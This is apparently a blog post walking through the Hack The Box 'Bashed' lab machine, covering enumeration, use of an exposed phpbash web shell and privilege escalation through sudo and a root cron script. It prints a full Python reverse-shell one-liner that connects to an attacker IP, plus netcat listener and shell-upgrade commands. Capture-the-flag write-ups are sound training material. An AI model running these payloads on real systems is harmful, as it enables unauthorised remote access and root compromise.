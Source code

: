 ```yaml
---
layout: post
title: HTB - Bashed Writeup
date: 2019-01-05
image: '/images/posts/htb/bashed/bashed.jpg'
categories: ["writeups"]
tags: ["writeups", "bashed", "htb"]
---
```


* Box: Bashed
  - Difficulty: Easy
  - Points: 20
  - Release: 09 Dec 2017
  - IP: 10.10.10.68

### Initial Enumeration

#### Nmap Scan
Let's start with a scan of the target ip address:

`nmap -sC -A -oN bashed.nmap 10.10.10.68`

* -sC:  Default script
* -A:    Enable OS detection, version detection, script scanning, and traceroute
* -oN:  Output scan in normal format

The result shows only tcp/80 is open.

#### Port 80

Browsing the webpage presents us with a phpbash development page.
After a quick search of the site, there is nothing that stands out as potentially useful.

The next step would be to investigate if there are any hidden files or directories with GoBuster.

#### GoBuster Directory Search

`gobuster dir -u http://10.10.10.68 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php`

Navigate to /dev
<img src="/images/posts/htb/bashed/bashed2.jpg">


#### Get user.txt
A simple `cat` of the home directory of "arrexel" shows the user.txt flag.

<img src="/images/posts/htb/bashed/bashed3.jpg">

### 5. Get Reverse Shell

Run a netcat listener on your attacker box:
`nc -nlvp 4444`

To get a reverse shell, you can use the following python command:

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.28",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  `

Run that and you should get a reverse shell call as such:
<img src="/images/posts/htb/bashed4.jpg">

Checking the `whoami`, we see that we're running as "www-data". Run the below to pop a full shell:

- `python -c 'import pty;pty.spawn("/bin/bash");'`
- Press `Ctrl + Z` (to pause)
- `stty raw -echo`
- `fg` (to un-pause)
- `nc -nvlp 4444`

<img src="/images/posts/htb/bashed/bashed5.jpg">


### Privilege Escalation

#### Misconfigured Sudo Permissions

We check what the current user can run as sudo. We can see www-data can run all commands as scriptmanager without the need for a password.

`sudo -l`

<img src="/images/posts/htb/bashed/bashed6.jpg">

Looking through the directories manually we see a folder named **/scripts** which is owned by **scriptmanager**.
So lets run `sudo -u scriptmanager /bin/bash` to spawn a bash shell and give full read/write access to the **/scripts** folder

#### Cronjobs & test.py script file

The file named **test.py** looks to be executed every minute based on the timestamp of **test.txt**. We can see the text file is owned by root so it is safe to presume that it is run as a root cron job.

Let's just edit the **test.py** or create a new python file in **/scripts** to grab a shell as we know root will execute the contents of **scripts**.

I used one of the various reverse shells listed [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and moved this file into the **/scripts** directory.
`cp /tmp/reverseshell.py > /scripts/test.py`
Set up a listener and wait for a second.
And we got a connection as root.

**Go ahead and cat the root flag under the root directory**

<img src="/images/posts/htb/bashed/bashed7.jpg">

`cat root.txt`
<img src="/images/posts/htb/bashed/bashed8.jpg">
